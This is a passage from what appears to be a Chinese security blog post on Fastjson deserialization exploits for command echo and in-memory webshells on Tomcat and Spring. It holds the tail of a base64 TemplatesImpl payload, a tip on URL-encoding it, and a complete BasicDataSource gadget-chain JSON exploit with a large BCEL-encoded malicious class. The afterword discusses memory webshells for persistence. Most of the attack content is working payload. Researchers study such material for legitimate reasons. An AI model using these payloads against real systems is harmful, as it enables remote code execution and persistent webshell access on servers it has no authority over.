BNQApAU0AKgFlAC0BaAAsAWkALwA2AAAAQwAG/wDEAAsHADcHADgHADkHADoHADkHADoHADoHADkHADkHADoHADsAAEEHADz8ACAHADwL/wB0AAEHADcAAQcAPQAAPgAAAAQAAQAvAAEAPwBAAAIANAAAABkAAAADAAAAAbEAAAABADUAAAAGAAEAAAA0AD4AAAAEAAEAQQABAD8AQgACADQAAAAZAAAABAAAAAGxAAAAAQA1AAAABgABAAAAOQA+AAAABAABAEEAAQBDAAAAAgBE"],"_name":"a.b","_tfactory":{},"_outputProperties":{ },"_version":"1.0","allowedProtocols":"all"}
```

如果url传参的时候记得urlencode，最近有几次都是因为base64的+被当成了空格




## BasicDataSource链

先导入tomcat版本的dhcp依赖

```
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>9.0.58</version>
</dependency>
```

exp如下

```
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$5bp$TU$Y$feN$9bf7$db$85$d2$z$FBA$ae$a5$v$97DT$UZ$84$96r$v$90$W$q$z$IEq$bb$3dm$96nv$c3$ee$86$W$bc$df$efwEQ$f1$ae$V$_$e3$f8$S$Y$V$7d$f1$c1$f1$dd$Z$9f$7c$f5$c9$Zg$7cr$c6$R$ff$93M$da$84$W$r39$7b$ce$7f$fd$ce$7f$db$fd$e9$9f$af$bf$Dp$T$beP$QAJA$l$fa$c5rP$c6$n$F$b7$e3$b0$8c$p$S$G$UH8$w$e1$O$Fw$e2$98$8c$bbd$e82$Ge$Y2$b6$K$de$90$M$$$a3C$c2$b0$90$Y$91$91V$60$e2$b8$82$G$8c$ca$b0$c43$p$c3$96$e1$88mV$c6$J$Z$ae$MO$86$_$p$t$e3$a4$f0$3e$sc$5c$c2$v$F$a7q$b7X$eeQp$_$eeS$d0$8c$fbe$3c$m$9e$P$8a$e5$n$Z$P$cbxD$c2$a3$S$kc$Io6m$d3$df$c2P$jk$3d$c8$Q$ear$868C$5d$d2$b4yo$$3$c8$dd$3e$7d$d0$o$8a$96t$M$dd$3a$a8$bb$a68$X$89$cc$60$a8O$k$d7O$ea$JK$b7G$S$5d$96$eey$edD$cf0$y$y$a3$bb$7c$d8$e2$86$9f$e8$e1$7e$da$Z$S$C$8e$b08$r$b0o$f08$f1$89Q$95YO$m$5c$eee$J$91$cbO0DF$b8$7f$c85$7d$ee$G$fbn$ae$P$89$7dx$acH$94$N$t$93$d1$ed$n$8f$a1a$a0$ccf$cawM$7b$84l$d6$gi$dd$f5$b8$df$abgx$a5$dbI$91$90$9f6I$bf5I$b6$S$7c$5c$cfd$z$9e$f0$b2$82$9b$Y$e3$83$5e$9a$5bV$oU8$ef0$d2$cezR$99$95$f2uc$b4G$cf$WbA$b1$a4$3cKx$9c$b2$y$a1$8b2I$BfPv$8c$h$3c$eb$9b$8eM$d6$95$94$93s$N$be$d3$U$a1$9bSf$z$$$Q$a9X$8f$h$q$3c$a1$e2I$3c$a5$e2i$3c$c3$b0$d9qG$e2$B$8ca$97$d0$8f9$eeh$9c$f0$c4$N$c7$f6$f9$b8$l$a7$I$e5$b8$e7$c7$P$E$cf$ae$80$dc$edX$U$o$J$cf$aax$O$cf3$cc$a5$b0$V$r$3a$7d$ba$f2$60$ce$e7$84$a7$ee$8a$c4$a9x$B$_$S$b2$x$d3B$b7R$f1$S$5ef$e8$b8V$3c$v$ee$9e$b4ftZ$5b$c0$e2e$v$o$U$Fe$K$Z$c3b$e1x$3c$ee$F$baS6$Ca$V$af$It$cd$95Bi$df$cf$c6$bbi$a9$f4Xq$8b$m$cb$w$5e$c5$Z$G$c9$f1$e26A$97$f0$9a$8a$d7qV$c5$hxST$93i$P9c$w$de$c29$aa$bc$5d$db$f62$d4$f4$f7$ed$5c$b7Q$c5$dbB$a0$fa$d0$ee$5eZ$8d$cc$Q$Vi$82$ea$5eJ$M$9av$c2K$d3q$9d$n$M$a4$j$3dc$aax$H$ef$SS$c4$c8$b7lj$8f$C$8e$9coR$fd$Y$bam$8b$bc$bc$a7$e2$7d$7c$a0$e2C$7c$q$e1c$V$T$f8Dd$ff$3c$99$3a$da$a9$e2S$7c$a6$e2s$e1$b4f$d8$ca$J$P5$86$e5$88p5L$5dj$b2$b0$YZ$ae$b1h$Z$W$5c$ad$r$x$e2$d5$97v$a9$c7$a8$c2$8d$9c$ebr$db$_$9d$e7$c6Z$93WJQ$p4R$O$8b$85W$u$a3$a4$T4h$b4B$bc$8c$rtfdP$83$5b$b4$vP$u$d3$b1$e9$9d$3a$cdb$7b0$UJ$b7$e8$98Ag$60$9aN$eb$7f$8d$a6$b0i$9ftF$v$d8$9bb$d3$H$d4$c0tR$ebLc$ac$9e0m$e7$86$a5$bb$7c$a8$84m$W$8d$a0N$c3$e0$9eg$W$86g$uvDL$dc$f2B$3d$e5$f9$3c$T$f4$c8$7e$d7$c9r$d7$3f$c5$b0$ea$7f$e205$e7$7c$t$e9$8cq$b7K$X$b5R$99$adI$nY$b4$aan$8ay$d4Tn$b8$8bfdJ4$8fm$f0$f6$d6$p$Fk$fd$d9l$c9$9a$y$92$i$e4$a5az$5e$dbKu$5e$m$j$c8$d9$be$99$vuw$e9$d0X$a1V$q$8b$d1$cb$c79$f5O$y6$c3$ec$$$d7$a0$80$88$d8U$ba$w$S$Zf$93$ab$ddv6$e7$93$s$d7$v$86$f3K$eeL$tQ$c6$m$f5$d5$b1$Z$Z3x$a7$ec$a89$8fo$e7$96$99$J$de5$zW$cfEy$8b$8bk$d9$d4$PX$86$eb$e9$cd$y$7e$f4$ce$T$D$kU$b8$R$a8$fa$9e$a8$w$R$8f$af$be$Av$RUyTk$a1$3cj$92k$b4p$f5$rHy$c8$3dk$Z$ed$oy$u$bdE$81$da$40$40$z$J$ac$d1f$V$b7m$a1$b5$eb$8a$c2m5$d1$d0$e4$3e$5c$d4$9cM$9aZ$5d$m$3c$a7M$wR$eb$FU$L$R$f5p$b5$d6$90$S$y9$w$T$8c$b9Q$vX$a35$rK$91$f0$r4$b4$vZ$e3E$cc$cbc$be$b6$m$8f$e8Y$c8$da$c2$J$b2$d1$d4V$5bd$y$d2$W$X$YZT$a9$d6$aeKE$95$90$b6$q5$81$3aq$5cZ8$$$a3$b5F$5b$9e$8a$92$d9$V$da$car$ef$d1$I$9d$o$87$ab$bfA$f3$e1$8bX$VU$f2h$c9$p$W$ad$bd$80Vmu$kk$f2XKr$ca$a1$40w$5d$f1$3e$d1H$Rd$91$k$9fF$9f$40$u$f9$V$c5$3f$c48K$p$81j$fa$60$D$5c$y$a25$82$Qj1$87$b2$d1$84Y$f4y4$9b$b2T$87$cdD$e9F$3dR$d0p$8c$3e$b9r$98K$_$c7F$9c$c1$3czC$cc$c7yD$f1$r$W$e2G$d2$fa$85$ec$fc$8a$c5$f8$NK$f0$3b$96$e2O$y$c7_X$c16$60$r$ebA3$e3h$n$af$ab$98$89$Y6$90$c7$d3$e4k$O$eb$c7$cd$b8$8505$b1$3d$d8$88MT$X$cd$ac$Dmh$tt$ddl1$n$d8D$c8RL$c3$adD$ab$c11$W$c6$W$da$85$J$cb$l$d8J$5c$89$Q$fd$8c$O$da$c9$84$e7$5bt$S7B$a8$f2$d8$86$$$u$84$ed$i$b6c$H$dd$8e$ea$M$3b$b1$8b$7cw$d3$bf$L$e1$cb$f8$B$b5$SvK$d8$pa$af$84di$N6$c1$be$H$e8$94$d0$fb7$96$d2Z$7b$Z$3e$Y$a9$88e$l$b0$9f$M$85$I$7e$82$fe$b7$d1$be$K$H$fe$F$86$d6$81$f4$M$L$A$A"
        }
    }: "x"
}
```

恶意类还是用的Spring通用回显


# 后记

其实这篇文章对内存马的探究极少，主要是来研究对于spring和tomcat的回显，可以看到都有一个通性，这里带回显的命令都是可以去加载一个恶意类的，另外在templatesImpl加载字节码的，恶意类注意要去实现一个AbstractTranslet的继承

目前的这些都是通过在加载恶意类的时候去执行对应的命令执行，但是在https://xz.aliyun.com/t/7388发现了可以通过一个注入一个内存马之后经通过参数来命令执行，达到了一种权限维持的效果，目前对内存webshell的回显探究就到这，以后可以再学习一下动态注册filter这种方式的内存马


参考链接

https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3

https://xz.aliyun.com/t/7348

https://www.cnblogs.com/nice0e3/p/14891711.html#0x01-tomcat%E9%80%9A%E7%94%A8%E5%9B%9E%E6%98%BE

https://paper.seebug.org/1181/

https://cloud.tencent.com/developer/article/1785575

https://www.bilibili.com/video/BV1sF411q754?spm_id_from=333.337.search-card.all.click

https://xz.aliyun.com/t/7388